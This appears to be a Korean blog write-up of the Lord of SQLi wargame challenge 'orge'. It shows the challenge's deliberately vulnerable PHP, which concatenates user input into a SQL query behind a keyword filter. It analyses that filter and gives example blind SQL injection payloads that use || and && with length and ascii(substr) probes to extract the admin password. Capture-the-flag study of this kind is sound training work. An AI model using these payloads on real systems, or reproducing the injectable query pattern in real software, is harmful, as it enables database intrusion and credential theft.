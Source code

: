 ```yaml
---
layout: post
title: "LoS orge"
author: "isanghyeon"
tags: wargame
---
```


|문제 명|풀이 여부|URL|
|:------:|:---:|:-----:|
| **orge** | <span style="color:red">O</span> | https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php |

<hr/><br>

### Challenge Source Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

<br>

### Analysis Source Code
- #### preg_match function for $_GET[pw]
> ```php 
> preg_match('/prob|_|\.|\(\)/i', $_GET[pw])
> ```
> ```php
> preg_match('/or|and/i', $_GET[pw])
> ```
- #### Solve Conditions - 1
> ```php
> if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
> ```

|query|parms1|params2|
|:--:|:--:|:--:|
|select id from prob_orge where id='guest' and pw='{$_GET[pw]}'|id='guest'|pw='{$_GET[pw]}'|


- #### addslashes function for $_GET[pw]
> ```php 
> $_GET[pw] = addslashes($_GET[pw]); 
> ```
- #### Solve Conditions - 2
> ```php
> if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
> ```

|query|parms1|params2|
|:--:|:--:|:--:|
|select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'|id='admin'|pw='{$_GET[pw]}'|

이전에 설명했던 blind SQL injection에서 사용되는 함수 (ascii, substr)과 operator를 사용하면 쉽게 풀 수 있다.  
아래는 문제 풀이에 사용된 예시 SQL query이다.
```sql
length(pw)
select id from prob_orge where id='guest' and pw='' || id='admin' && length(pw) < N(10>|length(pw)|>5)#'
```
```sql
pw data
select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw(pw, index(<=length(pw)), 1)))<ascii(max=127, min=33)#
```
<hr/>
<br>

### Exploit Source Code
|작성 언어|Exploit Link|How to Exploit|
|:------:|:---:|:--:|
| **Python3.8** | https://github.com/isanghyeon/LordofSQLi-Solved-Exploit/tree/master/darkelf | Operator bypass |